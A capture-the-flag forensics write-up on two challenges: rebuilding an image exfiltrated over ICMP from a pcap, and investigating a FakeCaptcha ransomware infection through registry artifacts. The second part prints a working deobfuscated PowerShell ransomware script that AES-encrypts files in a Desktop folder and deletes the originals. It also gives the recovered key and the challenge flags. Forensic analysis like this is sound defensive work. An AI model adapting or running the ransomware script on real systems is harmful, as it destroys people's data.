







# pingwin



In this challenge, we have a pcap file. Let's analyze it in Wireshark.


We have two protocols in the traffic: DNS and ICMP, which might indicate possible data exfiltration. Let's investigate further.



There's nothing suspicious in the DNS traffic—just queries to an invalid domain, `notgoogle.com`, with no data being transferred.

Now, let's move on to the ICMP traffic.


The first ICMP (ping) request contains some data. In the first request, the data is a PNG file signature, indicating that an image is being exfiltrated through the protocol.

Let's use the `tshark` command line to extract all data chunks and reconstruct the image file:

```
tshark -r pingwin.pcapng -Y "icmp && ip.src == 192.168.42.173" -T fields -e data.data | tr '\n' '\0' | xxd -r -p > solve.png
```

And here is the image being exfiltrated:


FLAG : `IDEH{h0l4_qu3_p4s4_4l_kh4w4}`

# captcha



In this challenge, we have an encrypted PDF file and a ZIP file containing a disk image.


Based on the challenge description, the victim had their PDF encrypted after verifying a captcha on a website.

The captcha verification seems unusual, as a regular captcha verifier doesn't ask the user to open the Windows Run dialog (Windows key + R).
This attack is known as FakeCaptcha, and it is widely spread across the web.
Most of these attacks involve phishing the user into running a pre-copied payload via the Windows Run dialog.
The script is typically an infostealer malware, but in this case, it's ransomware, so let's investigate further.

Opening the disk image with an imaging tool (I used FTK Imager), we can see the user's files.



Great! In Windows, the history of commands used in the Run dialog is stored in the registry at the following path:
`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU`

Now, let's locate the user registry hive. The user registry is located in the root folder of the user’s directory and is called `ntuser.dat`

 

Let's export this file from the image. To view its contents, we need **Registry Explorer**, a great tool from Eric Zimmerman.

After opening the registry, navigate to the path:
`\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` to find the history of commands



The malicious payload makes a web request to retrieve the actual payload from Pastebin. Visiting the URL, we can see an obfuscated PowerShell command. We need to deobfuscate it to understand its behavior.

Here is the deobfuscated version:

```ps1
$folderPath = [System.IO.Path]::Combine([System.Environment]::GetFolderPath("Desktop"), "random_folder_to_not_damage_the_entire_system")
if (-not (Test-Path $folderPath)) {
    Write-Host "Folder not found. Exiting."
    exit
}
$computerName = [System.Environment]::MachineName
if ($computerName.Length -lt 16) {
    $key = $computerName + ('9' * (16 - $computerName.Length))
} else {
    $key = $computerName.Substring(0, 16)
}
Write-Host "Key: $key"
$keyBytes = [System.Text.Encoding]::UTF8.GetBytes($key)
Write-Host "Key Bytes: $($keyBytes -join ', ')"
$aesAlg = [System.Security.Cryptography.Aes]::Create()
$aesAlg.Key = $keyBytes
$aesAlg.Mode = [System.Security.Cryptography.CipherMode]::ECB
$aesAlg.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
Get-ChildItem -Path $folderPath -File | ForEach-Object {
    $filePath = $_.FullName
    $encryptor = $aesAlg.CreateEncryptor($aesAlg.Key, $null)
    $cryptoStream = New-Object System.Security.Cryptography.CryptoStream(
        [System.IO.File]::OpenWrite($filePath + ".enc"),
        $encryptor,
        [System.Security.Cryptography.CryptoStreamMode]::Write
    )
    $inputFileStream = [System.IO.File]::OpenRead($filePath)
    $inputFileStream.CopyTo($cryptoStream)
    $cryptoStream.FlushFinalBlock()
    $cryptoStream.Close()
    $inputFileStream.Close()
    Remove-Item $filePath -Force
}
```

This PowerShell script encrypts files in a "Desktop" folder **random_folder_to_not_damage_the_entire_system** using AES-ECB with a key derived from the computer name.

- If the computer name is shorter than 16 characters, it pads it with the character `9`.

- If the computer name is longer, it truncates it to 16 characters.

- The script appends `.enc` to the encrypted files and deletes the originals.

Now, we need the computer name to construct the encryption key. The computer name is stored in the Windows registry, specifically at `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName`

Let's retrieve the system machine hive.

In the disk image, the registry hive is located in the main folder, before the user folder.


We open it again using **Registry Explorer** and navigate to the **ComputerName** path.



The computer name is `DESKTOP-QELPTBL`

Since the computer name is 15 characters long, the script will pad it with the character `9` to make it a 16-character string.

Thus, the encryption key is `DESKTOP-QELPTBL9`

Now, let's decrypt the PDF file using a custom Python script.

```py
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import os

def dec_file(encrypted, decrypted, key):
    with open(encrypted, 'rb') as f:
        ciphertext = f.read()
    cipher = AES.new(key, AES.MODE_ECB)
    dec_data = unpad(cipher.decrypt(ciphertext), AES.block_size)
    with open(decrypted, 'wb') as f:
        f.write(dec_data)
    print(f"decrypted and saved as {decrypted}")

key = b"DESKTOP-QELPTBL9"
encrypted = 'flag.pdf.enc'
decrypted = 'flag.pdf'
dec_file(encrypted, decrypted, key)
```

...and voilà, we got the PDF back:



FLAG : `IDEH{D1g174l_F0r3n51c_M4573r}`

